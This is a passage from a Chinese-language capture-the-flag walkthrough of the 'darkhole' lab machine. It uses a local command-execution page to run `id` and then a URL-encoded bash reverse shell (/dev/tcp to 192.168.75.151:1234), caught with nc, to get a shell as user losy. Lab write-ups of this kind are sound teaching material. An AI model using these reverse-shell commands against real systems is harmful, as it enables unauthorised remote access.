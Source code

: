     
    发现执行了很多 `curl "http://127.0.0.1:9999/?cmd=<命令>"`  之类的，估计`9999`端口下是一个能进行`RCE`的页面
    
5. 我们也尝试执行下
    - 先试试`id` ，发现是`losy`的权限
        
        ```python
        jehad@darkhole:~$ curl http://127.0.0.1:9999/?cmd=id
        Parameter GET['cmd']uid=1002(losy) gid=1002(losy) groups=1002(losy)
        ```
        
6. 获得`losy`用户的权限
    - 跟着反弹shell命令
        
        因为靶机的`nc`没有`-e`参数，只能通过其他方式来反弹`shell`
        
        ```python
        # 通过shell
        bash -c 'bash -i >& /dev/tcp/192.168.75.151/1234 0>&1'
        ```
        
    - 将其进行URl编码
        
        ```python
        bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.75.151%2f1234+0%3e%261%27
        ```
        
    - 构建命令
        
        ```python
        curl "http://127.0.0.1:9999/?cmd=bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.75.151%2f1234+0%3e%261%27"
        ```
        
    - `kali` 开启监听，执行命令
        
        ```python
        nc -lvp 1234
        listening on [any] 1234 ...
        192.168.75.185: inverse host lookup failed: Unknown host
        connect to [192.168.75.151] from (UNKNOWN) [192.168.75.185] 33342
        bash: cannot set terminal process group (1215): Inappropriate ioctl for device
        bash: no job control in this shell
        losy@darkhole:/opt/web$ 
        ```
        
        获得`losy`的`shell`！！！
        

## 提权 - losy用户

1. 和之前一样，我们先查看`bash`历史记录
    
    ![image.png](image%2079.png)
    